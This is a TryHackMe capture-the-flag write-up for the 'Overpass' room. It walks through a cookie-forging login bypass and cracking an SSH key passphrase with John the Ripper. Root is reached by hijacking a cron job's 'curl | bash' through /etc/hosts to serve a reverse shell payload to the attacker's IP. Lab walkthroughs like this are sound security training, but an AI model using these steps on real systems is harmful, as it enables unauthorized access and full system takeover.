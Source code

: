 # Overpass
[TryHackMe room link](https://tryhackme.com/room/overpass)

# Informations about the room
> What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!

# Open ports

22 OpenSSH 7.6p1

80 Golang net/http server

# Enumeration

Gobuster found a `/admin` directory with a login form

The login is not vulnerable to any SQL injections

In the page source we find a login.js

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The login function checks for the response given from the webserver

If the response is "Incorrect Credentials" is prints "Incorrect Credentials"

Otherwise it will set a cookie named "SessionToken" and does a redirect to `/admin`

Since the cookie is not properly checked, it's only checking for the name of the cookie, it's possible to create a custom one

After logging in we are given a ssh key

We can crack it using John the Ripper:

```console
❯ ssh2john id_rsa > forjohn.txt
                                                                                                                                                             
❯ john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2023-03-12 01:04) 50.00g/s 668400p/s 668400c/s 668400C/s pink25..jackets
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Privilege escalation

We can write in the `/etc/hosts` file

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

And there is a cronjob downloading a `builscript.sh`

We can recreate the `/downloads/src/buildscript.sh` path on our machine and by modifying the `hosts` file we can let the cronjob download the file from our machine

```console
❯ mkdir downloads
❯ cd downloads
❯ mkdir src
❯ echo "sh -i >& /dev/tcp/10.8.37.155/6666 0>&1" > buildscript.sh
```

After a minute we get a root shell
